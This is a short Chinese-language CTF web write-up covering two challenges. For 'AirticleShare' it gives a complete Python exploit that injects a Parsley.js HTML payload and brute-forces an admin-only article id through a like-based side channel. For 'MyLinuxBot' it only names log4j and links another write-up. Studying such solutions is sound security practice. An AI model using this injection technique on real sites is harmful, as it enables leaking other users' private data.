

## Web

#### 前言

两道都是原题，原题给了源码，这里却不给，体验感不好。

### AirticleShare

找到基本一样的原题

https://blog.csdn.net/keyball123/article/details/104508815

修改一下Payload

```python
import requests
import time
import sys

def main(host, port):
    s = requests.Session()
    base_url = f"http://{host}:{port}/"
    res = s.get(base_url)
    pos = res.text.find('name="c" value="') + len('name="c" value="')
    csrftoken = res.text[pos:pos+16]

    ss = "0123456789abcdef"
    flag = ""

    for i in range(16):
        for j in ss:
            print("trying",j)
            payload = f'''<form data-parsley-validate>
                      <input data-parsley-required
                      data-parsley-trigger=\"blur\"
                      data-parsley-error-message=\"<input type=button id=like>\"
                      data-parsley-errors-container=\'a[href^=\"/lookup.php?id={flag + j}\"]\'
                      autofocus>
                      </form>'''
            data = {'c': csrftoken, 'content': payload}
            res = s.post(base_url + "add.php", data=data, allow_redirects=False)
            location = res.headers['Location']
            pos = location.find('id=') + 3
            wp = location[pos:]
            data = {'c': csrftoken, 'id': wp}
            res = s.post(base_url + "admin.php", data=data)
            time.sleep(4)

            # 测试发现我PC上需要重复请求多次才能知道是否admin成功点赞，有点小坑
            s.get(f"http://{host}:{port}/lookup.php?id={wp}")
            s.get(f"http://{host}:{port}/lookup.php?id={wp}")
            res = s.get(f"http://{host}:{port}/lookup.php?id={wp}")
            txt = res.text.replace("\n", "").replace("\r", "")
            if "Liked by</h3>admin" not in txt:
                flag += j
                print(i,flag)
                break

if __name__ == '__main__':
    main(sys.argv[1], sys.argv[2])
```

### MyLinuxBot

说了java和日志，那基本就是log4j了

搜索也找到基本一样的原题

https://sigflag.at/blog/2022/writeup-googlectf2022-log4j/

